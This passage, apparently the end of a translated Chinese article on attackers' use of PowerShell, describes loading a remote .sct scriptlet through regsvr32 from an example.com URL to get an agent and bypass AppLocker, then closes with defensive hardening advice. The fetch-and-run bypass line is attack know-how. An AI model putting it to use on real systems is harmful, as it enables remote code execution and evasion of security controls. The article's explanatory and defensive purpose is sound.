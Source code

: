 [![](https://p4.ssl.qhimg.com/t01684b249c5f83216f.png)](https://p4.ssl.qhimg.com/t01684b249c5f83216f.png)

<br>

你将再次得到一个新的agent。将这个.sct文件保存到你的web或者文件服务器上，使用“/i:https://example.com/2legit.sct&amp;#8221”能远程调用。这能绕过Applocker，因为regsvr32.exe是微软签名的二进制文件。

<br>

**0x04 总结**

PowerShell非常好用，攻击者已经使用它很多年了。最好的建议是保持客户端环境为PowerShell受限模式，禁用PowerShell v2，并升级PowerShell最新版（支持脚本块日志）。阻止PowerShell在你的环境中运行非常困难且几乎不太实际，因此至少要知道何时和如何使用它。
